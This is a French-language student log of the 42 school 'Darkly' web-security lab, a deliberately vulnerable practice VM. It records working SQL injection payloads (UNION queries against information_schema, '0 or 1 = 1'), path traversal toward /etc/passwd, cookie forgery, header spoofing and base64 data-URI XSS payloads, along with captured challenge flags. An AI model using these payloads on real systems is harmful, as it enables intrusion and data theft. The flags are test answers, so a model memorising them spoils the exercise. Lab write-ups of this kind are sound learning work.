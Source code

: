 # darkly
projet de web secu de 42


les faille que je prevois de croiser :
- injection sql sur une recherche 
- injection sql sur login
- injeciton de donner sur l upload dimage
- injection js
- injection php (j ai croiser ca sur internet mais je ne suis pas sur de ocomment ca marche)
- manipulation de cookie

# 29novembre :
je comprend comment lancer la machine grace a ce lien que de sympathique gens m on donner sur discord 
https://github.com/AdonisEnProvence/Darkly#setup
je me rend compte que les recherche de photos et d user renvois des erreurs sql 
il y a probablement moyen d y injecter des choses
je testes des trucs

# 30 novembre : 
je test plein de solution dinjeciton sql et une trouver sur se stie touche enfin 
https://perspectiverisk.com/mysql-sql-injection-practical-cheat-sheet/
 ## 0 UNION ALL SELECT NULL,version()-- 
c est top ca renvoi la version qui est : 5.5.64-MariaDB-1ubuntu0.14.04.1
 ## 0 UNION ALL SELECT NULL,concat(schema_name) FROM information_schema.schemata--
me donne les nom de database suivant :
- information_schema
- Member_Brute_Force
- Member_Sql_Injection
- Member_guestbook
- Member_images
- Member_survey

0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM images.TABLES --

je ne comprend pas les member machin ils ne retourne rien
## 0 UNION ALL SELECT NULL,concat(TABLE_NAME) FROM information_schema.TABLES --
je recupere plein de truc mais je ne sait pas quoi en faire

USER_STATISTICS

 0 UNION ALL SELECT NULL,concat(column_name) FROM information_schema.COLUMNS WHERE TABLE_NAME='USER_STATISTICS'--

## 0 UNION ALL SELECT NULL,concat(column_name) FROM guestbook.COLUMNS --
me donne toute les columns existante
visiblement http://192.168.56.101/index.php?page=member
et http://192.168.56.101/index.php?page=searchimg
n on pas le meme fonctionnement

# 1 decembre:

## 0 or 1 = 1;

me retourn des infos bien plus interessante dans le user .

je supose que la query sur le serveur ressemble a 

### SELECT * FROM user WHERE user_id = (what i typing);


en parallel j ai tester un outil qui etais sencer brut force les mdp mais il me dit que tout les mot de passe de ca liste sont bon .... 


je pensse que j ai foirer un truc donc je vais fair mon propre outil </br>
il me suiffit de remplacer </br>
http://192.168.56.101/?page=signin&username=d&password=d&Login=Login# </br>
par les username et password de mon choix (je crois je ne comprend pas l interet de Login) </br>
j ai essayer de le mettre a true mais rien ne se passe </br>

## 1 union all select 1,group_concat(table_name) from Information_schema.tables where table_schema = database(); 
me renvoi user je ne suis pas sur de situer la difference entre concat et gorup concate


# 15 decembre 

j ai mit en place un moyen avec fetch de brutforce le site

arriver tongyu qui me montre une super faile coter http://192.168.56.101/index.php?page=survey#
il suffit de changer les valeur dans les option et on optien le flags :
``` 03a944b434d5baff05f46c4bede5792551a2595574bcafc9a6e25f67c382ccaa```
izi


en decryptant le cooki en md5 on trouve false je supose donc que l on peu encrypter la chaine true pour devenire admin 
se qui fonctionne et me permet donc de trouver le flag : ``` df2eb4ba34ed059a1e3e89ff4dfc13445f104a1a52295214def1c4fb1693a5c3 ```

dans
http://192.168.56.101/?page=feedback
en rentrans une balise html style 

 \<div\>test\</div\> 

on obtien le flag : 

```0FBB54BBF7D099713CA4BE297E1BC7DA0173D8B3C21C1811B916A3A86652724E```


# 3 janvier 

je teste un truc on cherche le /etc/passwd le serveur renvois wtf je tente un ../etc/passwd et il renvoie un nouveaux message
je copie colle plein de ../ et j obtien <br/>

Congratulaton!! The flag is : 
```b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 ```


en visitant la page http://192.168.56.101/?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f (oou en cliquant sur le @ tout en bas de la home page)

on tombe sur un truc avec un albatros . la console de cette page renvois une erreur : '?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f:39 Uncaught (in promise) DOMException: play() failed because the user didn't interact with the document first. https://goo.gl/xX8pDD' <br/>
je vais donc sur la ressource
j avais de la mmusic qui etais jouer mais en rechargeant la page impossible d en avoir plus
j ai trouver la music mais ca ne me donne rien quand on cli dessus ca renvois vers une video youtube de aaronchupa
j ai changer le onload en on click car en bref chrome ne laisse pas le contenus se lancer si l utilisateur n interagie pas avec .

dans le html cmmenter je trouve un text qui dit : u must come frome https://www.nsa.gov/

je tente de faire unpetit programme qui avec node et fetche pour qu il utiliser les bonnes donner dans le header 
dapres se site : https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers je peu faire croire que je viens du bon site avec le parametre 'Referer' 
je tombe sur un texte qui dt : 'et's use this browser : "ft_bornToSec". It will help you a lot.'
en fouillant toujour sur le meme site je trouve *User-Agent* 

# 5 janvier

quand on clique sur l image nasa on trouve se lien http://192.168.56.101/?page=media&src=nsa

on peu donc suposer qu il charge les document depuis le serveur qui sont situer dans src (donc qui l execute)

en bref je tente ca http://192.168.56.101/?page=media&src=Montpellier%3Cscript%3Ealert(document.cookie);%3C/script%3E ca renvoie un truc super bizzare un sorry wrong answer et un 404 not found en meme temps


je pensse que je suis bloquer par une relecture de mon js par le serveur 


j ai trouver ca j ai pas trops compris mais si ca permet de bypasse le truc qui lis mon js et qui le vire autemps tenter
https://github.com/nhn/tui.editor/issues/1717


ici : http://192.168.56.101/?page=media&src=data:image/svg+xml;base64,PHN2ZyBpZD0neCcgeG1sbnM9J2h0dHA6Ly93d3cudzMub3JnLzIwMDAvc3ZnJyAKICAgIHhtbG5zOnhsaW5rPSdodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hsaW5rJyB3aWR0aD0nMTAwJyBoZWlnaHQ9JzEwMCc+PGEgeGxpbms6aHJlZj0namF2YXNjcmlwdDphbGVydCgxKSc+PHJlY3QgeD0nMCcgeT0nMCcgd2lkdGg9JzEwMCcgaGVpZ2h0PScxMDAnIC8+PC9hPjwvc3ZnPg#x


ca me dit  : le plugin nest pas supporter a la place du 404 error abithuelle

bref je suis sur la bonne vois je tente donc des recherch et je fait un ctrlf 'data:'  sur https://owasp.org/www-community/attacks/xss/

je crois que j ai gagner

je tente dencode ``<script>alert('coucou')</script>``  en base 64 ca me donne :  PHNjcmlwdD5hbGVydCgnY291Y291Jyk8L3NjcmlwdD4=

http://192.168.56.101/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnY291Y291Jyk8L3NjcmlwdD4=

BIM le flag :
`928D819FC19405AE09921A2B71227BD9ABA106F9D2D37AC412E9E5A750F1506D`

